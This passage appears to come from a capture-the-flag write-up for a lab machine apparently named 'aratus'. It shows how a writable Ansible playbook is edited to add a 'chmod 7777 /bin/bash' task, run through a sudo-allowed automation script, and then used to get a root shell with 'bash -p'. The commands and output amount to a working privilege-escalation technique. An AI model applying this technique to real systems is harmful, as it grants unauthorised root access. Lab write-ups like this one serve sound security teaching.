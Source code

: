 Looking at the ACL with `getfacl configure-RedHat.yml`:

```bash
# file: configure-RedHat.yml
# owner: automation
# group: automation
user::rw-
user:theodore:rw-
group::rw-
mask::rw-
other::r--
```

So we have the ability to write to this file. Let's take a look inside and see what we can do with that ability.

```bash
--- SNIP ---

- name: Ensure httpd certs are installed (RHEL 8 and later).
  command: /usr/libexec/httpd-ssl-gencerts
  when:
    - ansible_distribution_major_version | int >= 8
    - not localhost_cert.stat.exists
```

Looking at that snippet of the file tells me that we have the ability to create our own entry and give it a command to run. I add this to the file:

```
- name: Test
  command: chmod 7777 /bin/bash
```

And then run the **infra_as_code.sh** script as the **automation** user:

`sudo -u automation /opt/scripts/infra_as_code.sh`

It goes through and runs all of the tasks and then pops up a warning about running chmod, and adding a warn: false to the entry, but it still works. Looking at **/bin/bash** shows us that it's been changed, and we can now escalate to root using it:

`ls -al /bin/bash`:

```bash
-rwsrwsrwt. 1 root root 964536 Nov 24 17:33 /bin/bash
```

<br>

## Root

Running `/bin/bash -p`:

```bash
[theodore@aratus tasks]$ /bin/bash -p
bash-4.2# whoami
root
```
